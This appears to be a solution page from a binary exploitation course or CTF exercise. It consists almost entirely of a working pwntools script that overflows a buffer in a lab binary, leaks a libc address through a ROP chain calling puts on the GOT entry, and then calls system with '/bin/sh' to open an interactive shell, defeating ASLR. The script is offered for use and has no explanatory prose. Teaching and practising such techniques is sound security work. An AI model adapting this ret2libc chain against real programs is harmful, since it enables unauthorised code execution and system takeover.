 ## Extra Challenges
### 1. Address Space Who?
### Solution to 1.:
```python
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./bin/nightmares')
p = process()

offset = 72

# 0x40101a: ret
ret = 0x40101a

# pop rdi; pop rbp; ret;
pop_rdi_rbp = 0x401295

puts = elf.sym["puts"]
main = elf.sym["main"]

payload = flat(
        b'A' * offset,
        ret,
        pop_rdi_rbp,
        elf.got.puts,
        0xdeadbeef,
        puts,
        main,
)
p.sendline(payload)

puts_base = unpack(p.recvlines(7)[6], 'all')

# objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep -i puts
libc_base = puts_base - 0x87bd0

# strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep -i /bin/sh
binsh = libc_base + 0x1cb42f

# objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep -i system
system = libc_base + 0x58740

payload = flat(
        b'A' * offset,
        pop_rdi_rbp,
        binsh,
        0xdeadbeef,
        system
)

f = open("payload", "wb")
f.write(payload)
f.close()

p.sendline(payload)
p.interactive()
```

